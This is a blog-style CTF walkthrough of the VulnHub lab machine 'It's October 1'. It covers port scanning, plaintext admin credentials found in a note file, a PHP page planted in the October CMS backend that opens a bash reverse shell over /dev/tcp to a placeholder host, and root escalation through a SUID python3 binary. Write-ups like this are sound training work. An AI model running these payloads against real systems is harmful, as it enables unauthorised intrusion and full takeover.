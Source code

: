 ```yaml
---
layout: post
title:  "VULNHUB - It's October 1"
date:   2020-04-15 21:17:13 +0200
categories: ctf
---
```

# CTF WALKTHROUGH

**Machine:** It's October<br>
**Creator:** Akanksha Sachin Verma<br>
**IP:** 192.168.1.13<br>
**Link:** https://www.vulnhub.com/entry/its-october-1,460/

This is a really easy CTF available on Vulnhub, let's resolve it!

**Enumeration**<br>
First thing I did,as always, is run a port scan to understand what services the machine is running.

{% highlight ruby %}
$ nmap -sV -v -T4 192.168.1.13

22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
3306/tcp open  mysql   MySQL (unauthorized)
8080/tcp open  http    Apache httpd 2.4.38 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

So there are two webserver hosted at *http://192.168.1.13:80* and *http://192.168.1.13:8080*.
<br>
I started by looking at the host *http://192.168.1.13:8080* and found a file called *mynote.txt* containing credentials.

{% highlight html %}
$  curl http://192.168.1.13:8080/
	<a href="mynote.txt">My Note</a>
{% endhighlight %}


{% highlight text %}
$  curl http://192.168.1.13:8080/mynote.txt
	user 		- admin
	password 	- adminadmin2 
{% endhighlight %}

**Web-shell**<br>
The first question that bumped in my mind was: "Where can I use these credentials?" and for this reason i used *DirBuster* to see if there's any backend/login available. Note that BurpSuite can do this job easily even if there are alternative solutions such as *wfuzz* that are alot faster.<br>
After running *DirBuster* i almost instantly discovered the login page, located at: *http://192.168.1.13/backend* and I was able to log-in.<br>

Now it's time to think about how to get a reverse shell, after trying some public exploits such as *CVE-2018-1999009* and others nothing seemed to work.<br>
There was an option to upload new media files but the allowed extensions weren't good to upload a shell.<br>
After a little bit of try harding I was able to get a reverse shell thanks to the *CMS* section of the website.
1. Run a local listener
2. Create a New Page under *CMS->Pages*
3. Give random title and filename
4. Add page with below source code
5. Visit the page
{% highlight php %}
function onstart(){ 
    exec("/bin/bash -c 'bash -i > /dev/tcp/IPADDR/PORT 0>&1'");
}
{% endhighlight %}

{% highlight php %}
curl http://192.168.1.13/nameofthepage
{% endhighlight %}

If you did everything correctly a shell will pop-up in the nc listener, to upgrade it to full TTY we just have to run
{% highlight python %}
python -c 'import pty; pty.spawn("/bin/bash")'
{% endhighlight %}


**Privilege escalation**<br>
Looking at the files on the webserver I found nothing interesting so I decided to look for SUID files with the following command:
{% highlight bash %}
find / -perm -u=s -type f 2>/dev/null
{% endhighlight %}
And found out in the list *python3* which is perfect to gain root privileges.<br>
What I had to do is simply run a python3 script that will create a tty shell with root privileges.
{% highlight bash %}
python3 -c 'import os; os.execl("/bin/bash","bash","-p")'
{% endhighlight %}
{% highlight bash %}
$ id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
{% endhighlight %}

So now it's time to cd into /root/ and see if we got the flag!
{% highlight bash %}
$ cat /root/proof.txt
Best of Luck
$2y$12$EUztpmoFH8LjEzUBVyNKw.9AKf37uZWPxJp.A3eop2ff0LbLYZrFq
{% endhighlight %}


Nice, we PWNED it!!
